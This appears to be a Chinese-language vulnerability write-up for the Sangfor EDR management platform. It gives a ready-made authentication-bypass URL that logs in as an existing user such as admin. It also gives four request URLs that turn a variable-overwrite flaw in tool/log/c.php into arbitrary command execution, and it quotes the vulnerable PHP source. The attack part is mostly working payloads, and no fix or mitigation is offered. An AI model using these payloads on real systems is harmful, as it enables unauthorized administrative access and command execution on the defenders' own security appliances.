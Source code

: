 # 深信服EDR任意用户登录与命令执行漏洞分析

## 1.深信服EDR简介

终端检测响应平台（EDR）是深信服公司提供的一套终端安全解决方案，EDR 的管理平台支持统一的终端资产管理、终端安全体检、终端合规检查，支持微隔离的访问控制策略统一管理，
支持对安全事件的一键隔离处置，以及热点事件 IOC 的全网威胁定位，历史行为数据的溯源分析，远程协助取证调查分析。

## 2.深信服EDR漏洞

### 2.1.后台任意用户登录漏洞

```
payload：https://IP地址/ui/login.php?user=admin
```

注意后面的admin是必须存在的用户，也就是说EDR设备上必须存在admin的用户，这样才能直接登录admin，若访问的是一个不存在的用户，那么必然无法登录。

![截图](76cc028664706bb5f1b707d75763f3b1.png)

2.2.任意命令执行漏洞

```
https://xxx.xxx.xx.xx/tool/log/c.php?strip_slashes=system&host=id
https://xxx.xxx.xx.xx/tool/log/c.php?strip_slashes=system&path=id
https://xxx.xxx.xx.xx/tool/log/c.php?strip_slashes=system&row=id
https://xxx.xxx.xx.xx/tool/log/c.php?strip_slashes=system&limit=id
```

原理就是典型的变量覆盖漏洞。

![截图](2fe5804432f60bf3d1d351f5d60412f0.png)

tool/log/c.php 部分源码：

```
<?php  
call_user_func(function() {
    ....

    /**
     * 显示表单
     * @param array $params 请求参数
     * @return
     */
    $show_form = function($params) use(&$strip_slashes, &$show_input) {
        extract($params);
        $host  = isset($host)  ? $strip_slashes($host)  : "127.0.0.1";
        $path  = isset($path)  ? $strip_slashes($path)  : "";
        $row   = isset($row)   ? $strip_slashes($row)   : "";
        $limit = isset($limit) ? $strip_slashes($limit) : 1000;

        // 绘制表单
        echo "<pre>";
        echo '<form id="studio" name="studio" method="post" action="">';
        $show_input(array("title" => "Host ",  "name" => "host",  "value" => $host,  "note" => " - host, e.g. 127.0.0.1"));
        $show_input(array("title" => "Path ",  "name" => "path",  "value" => $path,  "note" => " - path regex, e.g. mapreduce"));
        $show_input(array("title" => "Row  ",  "name" => "row",   "value" => $row,   "note" => " - row regex, e.g. \s[w|e]\s"));
        $show_input(array("title" => "Limit",  "name" => "limit", "value" => $limit, "note" => " - top n, e.g. 100"));
        echo '<input type="submit" id="button">';
        echo '</form>';
        echo "</pre>";
    };

    /**
     * 入口函数
     * @param array $argv 配置参数
     * @return
     */
    $main = function($argv)
        use(&$collect) {
        extract($argv);
        if (!isset($limit)) {
            return;
        }
        $result = $collect($path, $row, $limit, $host);
        if (!is_array($result)) {
            echo $result, "\n";
            return;
        }
        if (!isset($result["success"]) || $result["success"] !== true) {
            echo $result, "\n";
            return;
        }
        foreach ($result["data"] as $host => $items) {
            $last = "";
            foreach ($items as $item) {
                if ($item["name"] != $last) {
                    $last = $item["name"];
                    echo "\n[$host] -> $last\n\n";
                }
                echo $item["item"], "\n";
            }
        }
    };

    set_time_limit(0);
    echo '<html><head><meta http-equiv="Content-Type" Content="text/html; Charset=utf-8"></head>';
    echo '<body bgcolor="#e8ddcb">';
    echo "<p><b>Log Helper</b></p>";
    $show_form($_REQUEST);
    echo "<pre>";
    $main($_REQUEST);
    echo "</pre>"; 
});
?>
```